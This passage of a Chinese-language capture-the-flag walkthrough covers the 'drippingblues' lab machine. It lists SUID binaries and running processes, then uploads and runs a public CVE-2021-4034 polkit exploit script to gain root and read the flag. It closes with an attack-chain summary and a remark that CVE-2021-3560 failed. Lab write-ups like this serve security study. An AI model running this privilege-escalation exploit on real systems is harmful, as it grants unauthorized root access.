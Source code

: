 ```shell
-rwsr-xr-x 1 root root 88464 Kas 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68208 Kas 29  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44784 Kas 29  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 55528 Şub  7  2022 /usr/bin/mount
-rwsr-xr-- 1 root messagebus 51344 Eki 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 14488 Eki 23 19:31 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 22840 Şub 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 146888 May 29 15:09 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14488 Tem  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 473576 Ağu  5 01:02 /usr/lib/openssh/ssh-keysign
```

在进程信息中发现了polkitd进程：

```shell
thugger@drippingblues:~$ ps -ef
... ...
root       19330       1  0 05:04 ?        00:00:00 /usr/sbin/cupsd -l
root       29599       1  0 05:06 ?        00:00:00 /usr/lib/policykit-1/polkitd --no-debug
root       29605       1  0 05:06 ?        00:00:00 /usr/sbin/ModemManager --filter-policy=strict
... ...
```

那就直接用polkitd进行提权。使用sftp上传[CVE-2021-4034-exp](https://github.com/nikaiw/CVE-2021-4034/blob/master/cve2021-4034.py)并执行进行提权:

```SHELL
thugger@drippingblues:~$ python3 cve-2021-4034.py
# id
uid=0(root) gid=0(root) groups=0(root),1001(thugger)
# ls /root
root.txt
# cat /root/root.txt
78CE377EF7F10FF0EDCA63DD60EE63B8#
```

这个md5进行碰撞没有发现结果。

没有其他东西了，应该也就到此为止了。

## Notes

### 思路梳理

url parameters fuzz --> robots.txt get file info --> get password -->  login ssh --> polkit privilege escalation

### CVE-2021-3560

CVE-2021-3560也是一个polkit常用的提权漏洞，但是在本次的测试中一直失败。
